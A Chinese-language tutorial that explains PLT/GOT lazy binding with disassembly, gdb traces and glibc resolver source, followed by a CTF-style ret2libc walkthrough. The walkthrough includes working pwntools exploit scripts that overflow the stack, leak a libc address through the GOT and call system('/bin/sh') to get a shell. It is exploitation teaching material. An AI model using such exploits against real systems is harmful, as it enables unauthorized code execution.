






# PLT 和 GOT 表
之前在调试的程序里经常会看到这样子的东西：
call 8049050 <gets@plt>
在调用对应的函数的时候并不是直接跳转到目标函数的地址，而是经过了一个 .plt 段。这个 plt 也就是 procedure linkage table。这里就细说一下具体的东西。
我们写一个这样子的程序并编译：
#include <stdio.h> | |
int main(){ | |
printf("Hello.\n"); | |
printf("Goodbye\n"); | |
return 0; | |
} |
查看反编译之后的 main 函数：
8049193: 8d 83 08 e0 ff ff lea eax,[ebx-0x1ff8]
8049199: 50 push eax
804919a: e8 b1 fe ff ff call 8049050 <puts@plt>
804919f: 83 c4 10 add esp,0x10
80491a2: 83 ec 0c sub esp,0xc
80491a5: 8d 83 0f e0 ff ff lea eax,[ebx-0x1ff1]
80491ab: 50 push eax
80491ac: e8 9f fe ff ff call 8049050 <puts@plt>
可以看到这里调用的是函数 puts@plt 而不是 puts 。我们继续反编译 puts@plt ，发现这是在 .plt 段里:
08049050 <puts@plt>:
8049050: ff 25 10 c0 04 08 jmp DWORD PTR ds:0x804c010
8049056: 68 08 00 00 00 push 0x8
804905b: e9 d0 ff ff ff jmp 8049030 <_init+0x30>
这里程序首先跳转到了 ds:0x804c010 这个地方，这是哪里？
我们通过 gdb 跟进调试。

我们查看内存对应区块的内容：
pwndbg> x 0x804c010
0x804c010 <puts@got.plt>: 0x08049056
也就是说这条 jmp DWORD PTR ds:0x804c010 指令跳转到的地方实际上就是它的下一条语句。这里的 GOT 全程是 Global Offset Table。我们接着往后看。
程序在 push 8 之后执行了 jmp 0x8049030 。在 objdump 中，跳转的目的地址是这样的：
08049030 <__libc_start_main@plt-0x10>:
8049030: ff 35 04 c0 04 08 push DWORD PTR ds:0x804c004
8049036: ff 25 08 c0 04 08 jmp DWORD PTR ds:0x804c008
804903c: 00 00 add BYTE PTR [eax],al
程序首先将 DWORD PTR ds:0x804c004 地址的数据压入栈中。
pwndbg> x 0x804c004
0x804c004: 0xf7ffda20
接下来，程序跳转进入 _dl_runtime_resolve 中。实际上，这个函数是动态重定位中的关键函数。这个函数的位置在 glibc/sysdep/<machine type>/dl-trampoline.S 中。删去一些代码以便理解。
_dl_runtime_resolve:
pushl %eax # Preserve registers otherwise clobbered.
pushl %ecx
pushl %edx
movl 16(%esp), %edx # Copy args pushed by PLT in register. Note
movl 12(%esp), %eax # that fixup takes its parameters in regs.
call _dl_fixup # Call resolver.
popl %edx # Get register content back.
movl (%esp), %ecx
movl %eax, (%esp) # Store the function address.
movl 4(%esp), %eax
ret $12 # Jump to function address.
这个函数首先将寄存器压栈以保存寄存器的值。接下来，函数从栈上读取数据放入寄存器中。
执行到语句 movl 16(%esp), %edx 之前，栈中的状态是这样的：
00:0000│ esp 0xffffd528 —▸ 0xffffd590 —▸ 0xf7f6ee3c (_GLOBAL_OFFSET_TABLE_) ◂— 0x224d6c /* 'lM"' */ => EDX
01:0004│ 0xffffd52c —▸ 0xffffd570 ◂— 0x1 => ECX
02:0008│ 0xffffd530 —▸ 0x804a008 ◂— 'Hello.' => EAX
03:000c│ 0xffffd534 —▸ 0xf7ffda20 ◂— 0x0 => move into EAX
04:0010│ 0xffffd538 ◂— 0x8 => move into EDX
接下来程序进入了 _dl_fixup 函数。这个函数定义在 glibc/elf/dl-runtime.c 中。
/* This function is called through a special trampoline from the PLT the
first time each PLT entry is called. We must perform the relocation
specified in the PLT of the given shared object, and return the resolved
function address to the trampoline, which will restart the original call
to that address. Future calls will bounce directly from the PLT to the
function. */
函数的定义是这样的：
DL_FIXUP_VALUE_TYPE attribute_hidden __attribute ((noinline)) ARCH_FIXUP_ATTRIBUTE | |
_dl_fixup ( | |
struct link_map *l, | |
ElfW(Word) reloc_arg | |
); |
这里需要加上一些额外的信息，一个程序具体的动态链接细节是保存在了 .dynamic 节中。我们可以通过 readelf 读取文件中 dynamic 节的信息：
$ readelf -d test
Dynamic section at offset 0x2f0c contains 24 entries:
标记 类型 名称/值
0x00000001 (NEEDED) 共享库：[libc.so.6]
0x0000000c (INIT) 0x8049000
0x0000000d (FINI) 0x80491c4
0x00000019 (INIT_ARRAY) 0x804bf04
0x0000001b (INIT_ARRAYSZ) 4 (bytes)
0x0000001a (FINI_ARRAY) 0x804bf08
0x0000001c (FINI_ARRAYSZ) 4 (bytes)
0x6ffffef5 (GNU_HASH) 0x8048240
0x00000005 (STRTAB) 0x80482d0
0x00000006 (SYMTAB) 0x8048260
0x0000000a (STRSZ) 139 (bytes)
0x0000000b (SYMENT) 16 (bytes)
0x00000015 (DEBUG) 0x0
0x00000003 (PLTGOT) 0x804c000
0x00000002 (PLTRELSZ) 16 (bytes)
0x00000014 (PLTREL) REL
0x00000017 (JMPREL) 0x80483b4
0x00000011 (REL) 0x804839c
0x00000012 (RELSZ) 24 (bytes)
0x00000013 (RELENT) 8 (bytes)
0x6ffffffe (VERNEED) 0x804836c
0x6fffffff (VERNEEDNUM) 1
0x6ffffff0 (VERSYM) 0x804835c
0x00000000 (NULL) 0x0
在 dynamic 节中，存放的是这样的数据结构：
typedef struct { | |
Elf32_Sword d_tag; | |
union { | |
Elf32_Word d_val; | |
Elf32_Addr d_ptr; | |
} d_un; | |
} Elf32_Dyn; | |
extern Elf32_Dyn _DYNAMIC[]; |
其中 d_tags 用来确定 d_un 的类型。它的具体取值可以在 ELF 对应的文档里查看到。
有一些重要的取值：
DT_STRTAB ：对应的 d_un 是 Elf32_Addr 类型，存放了字符串表。
DT_SYMTAB ：对应的 d_un 是 Elf32_Addr 类型，存放了符号表。
DT_RELA 和 DT_REL ：对应的 d_un 是 Elf32_Addr 类型，存放了重定位表。 DT_RELASZ 和 DT_RELSZ 对应的表项里是重定位表的总大小。 DT_RELAENT 和 DT_RELENT 对应的表项中则是重定位表单个项目的大小。（实际上上面 DT_STRTAB 和 DT_SYMTAB 对应的大小也是类似的命名方式）
DT_JMPREL ：存放了需要重定位的函数信息（对应了 .rel.plt 节）。总大小和表项大小的命名和上面类似。
在重定位表中，存放了这样的数据结构：
typedef struct {
Elf32_Addr r_offset;
Elf32_Word r_info;
} Elf32_Rel;
typedef struct {
Elf32_Addr r_offset;
Elf32_Word r_info;
Elf32_Sword r_addend;
} Elf32_Rela;
其中 Elf32_Rel 对应了 DT_REL ， Elf32_Rela 对应了 DT_RELA 。
我们可以使用 readelf 查看重定位信息：
$ readelf -r test
重定位节 '.rel.dyn' at offset 0x39c contains 3 entries:
偏移量 信息 类型 符号值 符号名称
0804bff4 00000206 R_386_GLOB_DAT 00000000 _ITM_deregisterTM[...]
0804bff8 00000406 R_386_GLOB_DAT 00000000 __gmon_start__
0804bffc 00000506 R_386_GLOB_DAT 00000000 _ITM_registerTMCl[...]
重定位节 '.rel.plt' at offset 0x3b4 contains 2 entries:
偏移量 信息 类型 符号值 符号名称
0804c00c 00000107 R_386_JUMP_SLOT 00000000 __libc_start_main@GLIBC_2.34
0804c010 00000307 R_386_JUMP_SLOT 00000000 puts@GLIBC_2.0
可以看到在 .rel.plt 中 puts 函数的 r_offset 值为 0804c010 。这个值指到了哪里？回到前面程序，我们可以看到：
08049050 <puts@plt>:
8049050: ff 25 10 c0 04 08 jmp DWORD PTR ds:0x804c010
8049056: 68 08 00 00 00 push 0x8
804905b: e9 d0 ff ff ff jmp 8049030 <_init+0x30>
这个地址就是 puts@plt 第一条指令跳转的目的地址，也就是在 GOT 表中 puts 对应的表项。那么，完成重定位之后， puts 函数的地址就会被写入该偏移的地址。如果下次再需要调用这个函数，就可以直接调用这个地址进行跳转了，不需要再去执行各种解析操作。
这个 Elf32_Rel 表项在哪里？这个表项在 .rel.plt 这一节中，我们可以通过 Elf32_Dyn 表项去找到。
而 puts 函数的信息字段是 00000307 ，这个值我们可以去和 Elf32_Rel 中 r_info 进行对照。
对于上面的 ELF32_REL 和 ELF32_RELA ，还有下面三个定义：
#define ELF32_R_SYM(i) ((i)>>8) | |
#define ELF32_R_TYPE(i) ((unsigned char)(i)) | |
#define ELF32_R_INFO(s,t) (((s)<<8)+(unsigned char)(t)) |
使用上面的 ELF32_R_SYM 宏计算 ELF32_R_SYM(r_info) 就可以得到对应符号在符号表中的偏移。 ELF32_R_TYPE 则可以计算出对应的类型。
对于前面的例子， puts 函数的 r_info 为 00000307 ，右移 8 位之后得到的值为 3 。我们再去读取符号表，可以看到偏移为 3 的地方就是 puts 函数的符号表。
$ readelf -s test
Symbol table '.dynsym' contains 7 entries:
Num: Value Size Type Bind Vis Ndx Name
0: 00000000 0 NOTYPE LOCAL DEFAULT UND
1: 00000000 0 FUNC GLOBAL DEFAULT UND _[...]@GLIBC_2.34 (2)
2: 00000000 0 NOTYPE WEAK DEFAULT UND _ITM_deregisterT[...]
3: 00000000 0 FUNC GLOBAL DEFAULT UND puts@GLIBC_2.0 (3)
4: 00000000 0 NOTYPE WEAK DEFAULT UND __gmon_start__
5: 00000000 0 NOTYPE WEAK DEFAULT UND _ITM_registerTMC[...]
6: 0804a004 4 OBJECT GLOBAL DEFAULT 16 _IO_stdin_used
在符号表中，元素对应的类型是这样的：
typedef struct { | |
Elf32_Word st_name; // 符号名在符号字符串表中的索引 | |
Elf32_Addr st_value; // 符号值（可能是值或者函数地址） | |
Elf32_Word st_size; // 符号的大小（字节数这样的） | |
unsigned char st_info; | |
unsigned char st_other; | |
Elf32_Half st_shndx; | |
} Elf32_Sym; |
其中 st_size 段是这样的：
#define ELF32_ST_BIND(i) ((i)>>4)
#define ELF32_ST_TYPE(i) ((i)&0xf)
#define ELF32_ST_INFO(b,t) (((b)<<4)+((t)&0xf))
对于导入符号，这个字段的值是 0x12。
休息一会，放松一下。
好了，有了上面的基础，接下来继续看 test 程序。程序的运行进入了函数 _dl_fixup 中。
_dl_fixup ( | |
struct link_map *l, | |
ElfW(Word) reloc_arg | |
); |
和栈顶的元素对照一下：
00:0000│ esp 0xffffd528 —▸ 0xffffd590 —▸ 0xf7f6ee3c (_GLOBAL_OFFSET_TABLE_) ◂— 0x224d6c /* 'lM"' */
01:0004│ 0xffffd52c —▸ 0xffffd570 ◂— 0x1
其中 struct link_map *l 对应的是栈顶的元素， ElfW(Word) reloc_arg 对应的是栈顶的下一个元素也就是 1。
接下来，程序执行
const ElfW(Sym) *const symtab = (const void *) D_PTR (l, l_info[DT_SYMTAB]); | |
const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]); |
前一条语句从 l 中获得了符号表的地址，第二条语句得到了字符串表的位置。
// 获取函数的重定位表地址，注意是 DT_JMPREL，也就是在.rel.plt 节中。 | |
//reloc_offset 是 1，记得前面 readelf -r test 得到的结果？puts 在.rel.plt 的第二个，也就是偏移是 1！ | |
const PLTREL *const reloc = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset); | |
// 获取符号表的地址 | |
const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)]; | |
const ElfW(Sym) *refsym = sym; | |
// 得到函数的重定位地址，也就是 GOT 表项的地址 | |
void *const rel_addr = (void *)(l->l_addr + reloc->r_offset); |
接下来是一些定义和检查：
lookup_t result; | |
DL_FIXUP_VALUE_TYPE value; | |
/* Sanity check that we're really looking at a PLT relocation. */ | |
assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT); |
后面是符号表的查找过程：
if (__builtin_expect(ELFW(ST_VISIBILITY)(sym->st_other), 0) == 0) { | |
const struct r_found_version *version = NULL; | |
// 这一段暂时不用管 | |
if (l->l_info[VERSYMIDX(DT_VERSYM)] != NULL) { | |
const ElfW(Half) *vernum = | |
(const void *)D_PTR(l, l_info[VERSYMIDX(DT_VERSYM)]); | |
ElfW(Half) ndx = vernum[ELFW(R_SYM)(reloc->r_info)] & 0x7fff; | |
version = &l->l_versions[ndx]; | |
if (version->hash == 0) | |
version = NULL; | |
} | |
// 这一部分有关线程安全 | |
int flags = DL_LOOKUP_ADD_DEPENDENCY; | |
if (!RTLD_SINGLE_THREAD_P) { | |
// 加锁 | |
THREAD_GSCOPE_SET_FLAG(); | |
flags |= DL_LOOKUP_GSCOPE_LOCK; | |
} | |
// 关键部分 —— 查找符号 | |
result = _dl_lookup_symbol_x(strtab + sym->st_name, l, &sym, l->l_scope, | |
version, ELF_RTYPE_CLASS_PLT, flags, NULL); | |
// 完成查找操作，解除锁 | |
if (!RTLD_SINGLE_THREAD_P) | |
THREAD_GSCOPE_RESET_FLAG(); | |
// 之前拿到的链接库的基址，现在还需要加上函数的偏移 | |
value = DL_FIXUP_MAKE_VALUE(result, SYMBOL_ADDRESS(result, sym, false)); | |
} else { | |
// 已经找到了对应的符号，就不需要去做上面的那些事情 | |
value = DL_FIXUP_MAKE_VALUE(l, SYMBOL_ADDRESS(l, sym, true)); | |
result = l; | |
} |
经过上面的步骤，我们能够获得所需要的函数的偏移。
...... | |
// 将对应的偏移写进 GOT 表里 | |
return elf_machine_fixup_plt (l, result, refsym, sym, reloc, rel_addr, value); |
完成这个步骤之后，解析过程完成。通过 GDB 调试可以看到，执行完函数 _dl_fixup 之后， EAX 的值就是 puts 的实际地址：

接下来函数经过了栈的清理和一部分恢复操作，将 EAX 的值写入栈顶并执行 ret ，可以看到程序 ret 之后就会进入 puts 函数执行。

在执行完 puts 函数之后，程序回到 main 函数继续执行。
► 0xf7dc0bfa <puts+266> ret <0x804919f; main+41>
↓
0x804919f <main+41> add esp, 0x10
接下来程序运行到第二次调用 puts 函数时，我们使用 gdb 跟进：

可以看到程序会直接跳转进入了 puts 函数中执行，并不需要再进行一次 _dl_runtime_resolve 的操作。
实际上，如果程序在运行开始时就直接将动态链接库中的所有函数都进行这样的操作也是可以的，但是会带来巨大的性能损耗，所以会采用这样的折中的方式。在第一次调用函数的时候会进行一次 GOT 表的绑定，之后就不再需要了，这个操作被称为延迟绑定 (Lazy Binding)。

# ret2libc
以这道题为例。
$ pwn checksec ret2libc2
[*] '/home/syml/Temp/ret2libc2'
Arch: i386-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8048000)
可以看到没有开启 Canary 和 PIE，但是开启了 NX。通过 IDA 检查发现程序里面没有 /bin/sh 这样的字符串。
使用 readelf 或者 IDA 都可以看到其中有 system 函数：
重定位节 '.rel.plt' at offset 0x3c4 contains 11 entries:
偏移量 信息 类型 符号值 符号名称
......
0804a010 00000207 R_386_JUMP_SLOT 00000000 gets@GLIBC_2.0
......
0804a01c 00000507 R_386_JUMP_SLOT 00000000 system@GLIBC_2.0
......
我们使用 IDA 反编译可以看到 main 函数：
int __cdecl main(int argc, const char **argv, const char **envp) | |
{ | |
char s[100]; // [esp+1Ch] [ebp-64h] BYREF | |
setvbuf(stdout, 0, 2, 0); | |
setvbuf(_bss_start, 0, 1, 0); | |
puts("Something surprise here, but I don't think it will work."); | |
printf("What do you think ?"); | |
gets(s); | |
return 0; | |
} |
还是同样的栈溢出漏洞。采用和上次类似的方法可以看出返回地址相对的偏移为 112。
同时，我们还发现在 .bss 段存在一个变量 buf2 ：

接下来的问题是如何去构造 payload。一个思路是，溢出 main 函数使得它返回到 gets@plt ，读取数据 /bin/sh 放入 buf2 ，接下来返回到 system@plt ，将 buf2 的内容作为参数传入。
通过这个思路我们构造 payload：
from pwn import * | |
buf2_addr = 0x804a080 | |
gets_addr = 0x8048460 | |
system_addr = 0x8048490 | |
sh = process('./ret2libc2') | |
payload = b"A" * 112 + p32(gets_addr) + p32(system_addr) + p32(buf2_addr) + p32(buf2_addr) | |
sh.sendline(payload) | |
sh.sendline(b"/bin/sh") | |
sh.interactive() |
成功。
其实这个例子并没有具体的体现出来前面扯了一大段的 GOT lazy binding 还有 glibc 的特点。这个例子相对来说更难一些。
程序的保护措施和前一个一样：
$ pwn checksec ret2libc3
[*] '/home/syml/Temp/ret2libc3'
Arch: i386-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8048000)
但是查看这里的重定位表就会发现，没有 system 函数的重定位信息：
重定位节 '.rel.plt' at offset 0x3ac contains 10 entries:
偏移量 信息 类型 符号值 符号名称
0804a00c 00000107 R_386_JUMP_SLOT 00000000 printf@GLIBC_2.0
0804a010 00000207 R_386_JUMP_SLOT 00000000 gets@GLIBC_2.0
0804a014 00000307 R_386_JUMP_SLOT 00000000 time@GLIBC_2.0
0804a018 00000407 R_386_JUMP_SLOT 00000000 puts@GLIBC_2.0
0804a01c 00000507 R_386_JUMP_SLOT 00000000 __gmon_start__
0804a020 00000607 R_386_JUMP_SLOT 00000000 srand@GLIBC_2.0
0804a024 00000707 R_386_JUMP_SLOT 00000000 __libc_start_main@GLIBC_2.0
0804a028 00000807 R_386_JUMP_SLOT 00000000 setvbuf@GLIBC_2.0
0804a02c 00000907 R_386_JUMP_SLOT 00000000 rand@GLIBC_2.0
0804a030 00000a07 R_386_JUMP_SLOT 00000000 __isoc99_scanf@GLIBC_2.7
接下来拖进 IDA 看一下：
int __cdecl main(int argc, const char **argv, const char **envp) | |
{ | |
char s[100]; // [esp+1Ch] [ebp-64h] BYREF | |
setvbuf(stdout, 0, 2, 0); | |
setvbuf(stdin, 0, 1, 0); | |
puts("No surprise anymore, system disappeard QQ."); | |
printf("Can you find it !?"); | |
gets(s); | |
return 0; | |
} |
这里有一个背景知识，glibc 中各个函数之间相对偏移是固定的 —— 我们知道了一个函数的偏移也就会知道其他所有函数的偏移。同时 glibc 中也有字符串 /bin/sh ，我们也可以去获得这个字符串的偏移。现有的工具包括了 python 模块和在线网站等。
那么问题就是怎么样去泄漏函数的偏移。另一个问题又在于，因为 GOT 的延迟绑定特点，我们需要读取一个已经执行过了一次的函数的偏移才行。
那么，我们选择读取 __libc_start_main 函数的 GOT。payload 构造如下（在本机上跑真的会碰到各种奇奇怪怪的问题）
from pwn import * | |
from LibcSearcher import LibcSearcher | |
sh = process('./ret2libc3') | |
file = ELF('./ret2libc3') | |
puts = file.plt['puts'] | |
libc_start_got = file.got['__libc_start_main'] | |
start = file.symbols['_start'] | |
# 返回到 puts 函数，输出_libc_start_main 的 GOT，并跳转到_start 重新执行程序。 | |
sh.recvuntil(b"!?") | |
payload = b'A' * 112 + p32(puts) + p32(start) + p32(libc_start_got) | |
sh.sendline(payload) | |
print("Leak glibc got addr, return to start") | |
libc_start_addr = u32(sh.recv(4)) | |
print("addr: {}".format(hex(libc_start_addr))) | |
libc = LibcSearcher('__libc_start_main', libc_start_addr) | |
base = libc_start_addr - libc.dump('__libc_start_main') | |
sys_addr = base + libc.dump('system') | |
bin_addr = base + libc.dump('str_bin_sh') | |
# 利用。 | |
payload = b"A" * 112 + p32(sys_addr) + b"aaaa" + p32(bin_addr) | |
sh.sendline(payload) | |
sh.interactive() |